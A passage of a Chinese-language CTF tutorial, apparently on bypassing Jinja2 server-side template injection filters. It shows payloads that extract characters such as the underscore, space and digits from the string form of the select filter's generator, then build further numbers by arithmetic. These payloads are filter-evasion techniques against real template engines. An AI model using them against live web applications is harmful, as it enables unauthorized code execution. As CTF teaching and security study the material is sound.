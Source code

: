 可以看到题目过滤的死死地，最关键是把 attr 也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。

在存在 ssti 的地方执行如下 payload：

```
{% set org = ({ }|select()|string()) %}{{org}}
# 或 {% set org = ({ }|select|string) %}{{org}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-275b3a1e-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-275b3a1e-bd3e-1.png)

可以看到，我们得到了一段字符串：`<generator object select_or_reject at 0x7f06771f4150>`，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串中取到我们想要的字符，从而绕过过滤。

然后我们在使用 list() 过滤器将字符串转化为列表：

```
{% set orglst = ({ }|select|string|list) %}{{orglst}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-2780bf78-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-2780bf78-bd3e-1.png)

如上图所示，反回了一个列表，列表中是 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串的每一个字符。接下来我们便可以使用使用 pop() 等方法将列表里的字符取出来了。如下所示，我们取一个下划线 `_`：

```
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27a4f47e-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27a4f47e-bd3e-1.png)

同理还能取到更多的字符：

```
{% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}}    # 空格
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
{% set zero = (({ }|select|string|list).pop(38)|int) %}{{zero}}    # 0
{% set seven = (({ }|select|string|list).pop(40)|int) %}{{seven}}    # 7
......


```

这里，其实有了数字 0 之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

```
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}{{one}}    # 1
{%set two = (zero-one-one)|abs %}    # 2
{%set three = (zero-one-one-one)|abs %}    # 3
{% set five = (two*two*two)-one-one-one %}    # 5
#  {%set four = (one+three) %}    注意, 这样的加号的是不行的,不知道为什么,只能用减号配合abs取绝对值了
......


```
